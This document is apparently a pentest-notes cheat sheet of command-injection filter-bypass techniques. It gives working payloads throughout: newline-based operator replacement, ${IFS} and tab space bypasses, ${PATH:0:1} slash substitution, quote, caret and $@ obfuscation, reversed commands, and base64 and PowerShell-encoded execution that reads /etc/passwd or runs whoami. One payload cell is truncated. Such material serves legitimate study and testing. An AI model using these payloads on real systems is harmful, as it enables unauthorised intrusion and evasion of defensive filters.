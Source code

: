 # Identifying Filters

## <mark style="color:red;">🛡️ Command Injection Bypass Techniques Cheat Sheet 🛡️</mark>

### <mark style="color:blue;">🔍 1. Detecting Filters</mark>

#### 🚫 Filter Types

* **Character Blacklists**: Blocks specific characters (`;`, `&`, `|`, spaces, etc.)
* **Command Blacklists**: Blocks specific commands (`whoami`, `cat`, etc.)
* **WAF Detection**: Security mechanisms that deny suspicious requests

#### 🧪 Testing for Filters

* 🔄 Try one character at a time to identify which ones are blocked
* 🔄 Test basic injection operators: `;`, `&&`, `||`, `|`, etc.
* 🔄 Check if spaces are filtered
* 🔄 Test common commands to identify command blacklists

***

### <mark style="color:blue;">🔀 2. Bypassing Injection Operator Filters</mark>

<table data-full-width="true"><thead><tr><th>🚫 Blocked</th><th>✅ Alternative</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>;</code></td><td>Newline (<code>%0a</code>)</td><td><code>127.0.0.1%0awhoami</code></td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%0a</code> (newline)</td><td><code>127.0.0.1%0awhoami</code></td></tr><tr><td><code>;</code></td><td>Environment variable</td><td><code>127.0.0.1${LS_COLORS:10:1}whoami</code></td></tr></tbody></table>

***

### <mark style="color:blue;">⌨️ 3. Bypassing Space Filters</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>📝 Syntax</th><th>💻 Example</th></tr></thead><tbody><tr><td>Tab character</td><td><code>%09</code></td><td><code>127.0.0.1%0a%09whoami</code></td></tr><tr><td><code>$IFS</code> variable</td><td><code>${IFS}</code></td><td><code>127.0.0.1%0awhoami${IFS}-a</code></td></tr><tr><td>Brace expansion</td><td><code>{command,arg}</code></td><td><code>127.0.0.1%0a{ls,-la}</code></td></tr></tbody></table>

***

### <mark style="color:blue;">🔣 4. Bypassing Slash/Character Filters</mark>

#### <mark style="color:green;">🐧 Linux Methods</mark>

<table data-full-width="true"><thead><tr><th>🔤 Character</th><th>🔄 Alternative Method</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>/</code></td><td><code>${PATH:0:1}</code></td><td><code>cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd</code></td></tr><tr><td><code>/</code></td><td><code>${HOME:0:1}</code></td><td><code>cat${IFS}${HOME:0:1}etc${HOME:0:1}passwd</code></td></tr><tr><td><code>;</code></td><td><code>${LS_COLORS:10:1}</code></td><td><code>127.0.0.1${LS_COLORS:10:1}${IFS}whoami</code></td></tr></tbody></table>

#### <mark style="color:green;">🪟 Windows Methods</mark>

<table data-full-width="true"><thead><tr><th>🔤 Character</th><th>🔄 Alternative Method</th><th>💻 Example</th></tr></thead><tbody><tr><td><code>\</code></td><td><code>%HOMEPATH:~6,-11%</code></td><td><code>type%HOMEPATH:~6,-11%Windows%HOMEPATH:~6,-11%win.ini</code></td></tr><tr><td><code>\</code></td><td><code>$env:HOMEPATH[0]</code></td><td>PowerShell: <code>type$env:HOMEPATH[0]Windows$env:HOMEPATH[0]win.ini</code></td></tr></tbody></table>

#### <mark style="color:green;">🔄 Character Shifting</mark>

* 🐧 Linux: `$(tr '!-}' '"-~'<<<[)` produces `\`
* 🔍 Find ASCII character before your target and shift it

***

### <mark style="color:blue;">🎭 5. Bypassing Command Blacklists</mark>

#### <mark style="color:green;">🔡 Command Obfuscation - Works on Linux & Windows</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Single quotes</td><td><code>w'h'o'am'i</code></td><td>Must have even number of quotes</td></tr><tr><td>Double quotes</td><td><code>w"h"o"am"i</code></td><td>Must have even number of quotes</td></tr></tbody></table>

#### <mark style="color:green;">🐧 Linux-Only Obfuscation</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Backslash</td><td><code>w\ho\am\i</code></td><td>Insert <code>\</code> anywhere in command</td></tr><tr><td>Positional parameter</td><td><code>who$@ami</code></td><td>Insert <code>$@</code> anywhere in command</td></tr></tbody></table>

#### <mark style="color:green;">🪟 Windows-Only Obfuscation</mark>

<table data-full-width="true"><thead><tr><th>🔧 Method</th><th>💻 Example</th><th>📝 Notes</th></tr></thead><tbody><tr><td>Caret</td><td><code>who^ami</code></td><td>Insert <code>^</code> anywhere in command</td></tr></tbody></table>

***

### <mark style="color:blue;">🧙‍♂️ 6. Advanced Obfuscation Techniques</mark>

#### <mark style="color:green;">🔠 Case Manipulation</mark>

* **🪟 Windows**: Case insensitive - `WhOaMi` works directly
* **🐧 Linux**: Case sensitive - use transformation:
  * `$(tr "[A-Z]" "[a-z]" <<<"WhOaMi")`
  * `$(a="WhOaMi"; printf %s "${a,,}")`

#### <mark style="color:green;">🔄 Reversed Commands</mark>

* **🐧 Linux**:
  * Generate: `echo 'whoami' | rev` → `imaohw`
  * Execute: `$(rev <<< 'imaohw')`
* **🪟 Windows PowerShell**:
  * Generate: `"whoami"[-1..-20] -join ''`
  * Execute: `iex "$('imaohw'[-1..-20] -join '')"`

#### <mark style="color:green;">🔐 Encoded Commands</mark>

* **🐧 Linux Base64**:
  * Encode: `echo -n 'cat /etc/passwd' | base64` → `Y2F0IC9ldGMvcGFzc3dk`
  * Execute: `$(echo Y2F0IC9ldGMvcGFzc3dk | base64 -d)`
  * Alternative: `bash <<< $(base64 -d <<< Y2F0IC9ldGMvcGFzc3dk)`
* **🪟 Windows PowerShell**:
  * Encode: `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
  * Execute: `powershell -e dwBoAG8AYQBtAGkA`
  * Alternative: `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

***

### <mark style="color:blue;">💻 8. Common Payloads Examples</mark>

<table data-full-width="true"><thead><tr><th width="496">🎯 Scenario</th><th>🔧 Payload Example</th></tr></thead><tbody><tr><td>Basic space bypass</td><td><code>127.0.0.1%0awhoami${IFS}</code></td></tr><tr><td>Multiple bypasses</td><td><code>127.0.0.1%0aw'h'o'a'm'i${IFS}</code></td></tr><tr><td>Full path bypass</td><td><code>127.0.0.1%0ac'a't'${IFS}${PATH:0:1}e'tc'${PATH:0:1}p'a's's'w'd'</code></td></tr><tr><td>Windows cmd bypass</td><td><code>127.0.0.1%0aw^ho^am^i</code></td></tr><tr><td>Encoded payload</td><td>`127.0.0.1%0a$(echo Y2F0IC9ldGMvcGFzc3dk</td></tr></tbody></table>

***

### <mark style="color:blue;">🚨 9. Quick Reference by OS</mark>

#### 🐧 Linux-Specific Techniques

* Environment variables: `${IFS}`, `${PATH:0:1}`
* Bash expansion: `{ls,-la}`
* Command substitution: `$(command)`
* Character transformation: `$(tr "[A-Z]" "[a-z]" <<<"WhOaMi")`

#### 🪟 Windows-Specific Techniques

* Caret insertion: `w^ho^am^i`
* Environment variables: `%HOMEPATH:~6,-11%`
* PowerShell array indexing: `$env:HOMEPATH[0]`
* PowerShell encoding: `powershell -e BASE64STRING`
